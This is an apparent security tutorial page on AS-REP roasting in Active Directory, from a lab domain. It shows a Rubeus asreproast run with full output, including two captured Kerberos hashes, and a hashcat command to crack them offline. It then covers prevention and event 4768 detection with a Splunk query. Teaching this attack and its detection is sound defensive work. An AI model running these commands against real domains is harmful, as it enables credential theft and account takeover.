


import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Introduction

The **AS-REProasting** attack is similar to the **Kerberoasting** attack. We can obtain crackable hashes for user accounts that have the property **Do not require Kerberos preauthentication** enabled. The success of this attack depends on the strength of the
user account password that we will crack.

<Callout title="What is the Pre-Authentication attribute?" variant="note">
  **Pre-authentication** requires users to prove their identity before the KDC
  issues an **AS-REP response**. Without it attackers can request AS-REP
  responses without knowing the password.
</Callout>

<div class="mx-auto"></div>

How the Attacker works:

- **Request a Ticket**: The attacker sends a request to the Key Distribution Center (KDC) for an account with pre-authentication disabled.
- **Receive Encrypted Data**: The KDC sends back an AS-REP response, encrypted using the account’s password hash.
- **Crack the Password**: The attacker uses tools to brute-force the password offline. If the password is weak, they gain access.

**Prerequisite**: To carry out this attack, the target account must have **"Do not require Kerberos pre-authentication"** enabled.

## Attack Path

To obtain crackable hashes, we can use **Rubeus** again. However, this time, we will use the **asreproast** action. If we don't specify a name, Rubeus will extract hashes for each user that has **Kerberos preauthentication** not require.

```powershell
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::7ced:b5c9:9edf:1aae%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$Admin2@CONTROLLER.local:B148810760E451167844E8AFB23BF22D$078CADF7C298
      7ABF7C1664959BA7257BA4C1ABF33CED46827E9DEA939BA0B7FF26ADC511AC4BDB75A689E3546761
      CB45FCAB36444172619F3D3D65C514B0DD6FEDAC8C6B0F369CFFE0FD7420C6B9FB1D94AF01CEFECB
      79C9023BF5E4E840F110B2D1DE19ADD7910A52592D4583C42EAE94F81235B131F97A7447CDB0AEEC
      F3F76A2EA9B6C2638D0663D570F37B5B5FDC5633939561B887F52F5F6BA43AD376BF91590BA20AA2
      89FF5D3776E38696A09F22CA56717EC6602C5EE5F7867ECDA4692E840CA3F9DB2911D030F5B5988A
      AF8DCD8D1CED13195363032BA119DBECCBB9D0683AD45290C023121C526A38CE07B8555AD536

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::7ced:b5c9:9edf:1aae%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:58B0E7783231DCB6367A359233CA40C5$FB1928901DAB5
      F63CB31B164ED8C273867F93EE1522F7C52C9A0000B9E55CDC711DF2C93A3C17403F0E6DE70242F5
      9DEF9E53C0C5D2F5250A55D91C247ECFE7C3D8B0F112BE8D9E78F4F920254538B0C12B13EF0C1D65
      8B5440F51E1A4FFB134FC4171FC4CCE410E28AADE8E6CC12BBD5D0BCB196F5BF0C273698F3E479B7
      56BA92044E9365577E8384C884AC8961E27AC52BC3C923AEB073EAFABE8BFA204060F5181C15D523
      E9666FE093915BF5A896E3DC251B3E45BF55D5C1EF3045091BDD94620001C8C6F1CD956CAE3DD1FD
      0421013E2B4094D531A084F391678FF0F3695923E43B3753617F0B5C4DEFF8CFFD970857D61
```

Next, we will use **hashcat** to crack the hash:

```shell
sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force
```

## Prevention

As mentioned before, the success of this attack depends on the **strength of the password** of users with **Do not require Kerberos preauthentication** configured. We should only use this property if needed.

## Detection

When we executed Rubeus, an Event with **ID 4768** was generated, signaling that a **Kerberos Authentication ticket** was generated. The caveat is that AD generates this event for every user that authenticates with Kerberos to any device; therefore, the presence of this event is very abundant.

However, we will rely on the following characteristics of event **ID 4768** to detect this attack technique:

- **Pre-Authentication Type** is `0`, which means it is disabled. This is a major condition to be fulfilled as without this condition, the attack can’t happen.
- **Service Name** should always be **krbtgt**. This is also straightforward. As only **krbtgt** can perform authentication-related processes in AD.
- **Ticket encryption type** will be `0x17` which is **RC4 encryption**, allowing attackers to easily crack the hash.

Here’s an example of identifying an actual event that was the result of a AS-REP attack using the detection tips above:

<div class="mx-auto"></div>

We can also use the following splunk query to detect AS-Rep Roasting.

```kql
Event.EventData.TicketEncryptionType="0x17" Event.System.EventID="4768" Event.EventData.PreAuthType="0" Event.EventData.ServiceName="krbtgt"
```

## Reference

- **[HackTheBox - AS-REP Roasting Detection](https://www.hackthebox.com/blog/as-rep-roasting-detection)** - Comprehensive guide on detecting AS-REP roasting attacks in Active Directory environments, including event log analysis and detection techniques.
- **[HackingArticles - AS-REP Roasting](https://www.hackingarticles.in/as-rep-roasting/)** - Detailed walkthrough of AS-REP roasting attack methodologies, tools like Rubeus, and practical exploitation examples in domain environments.
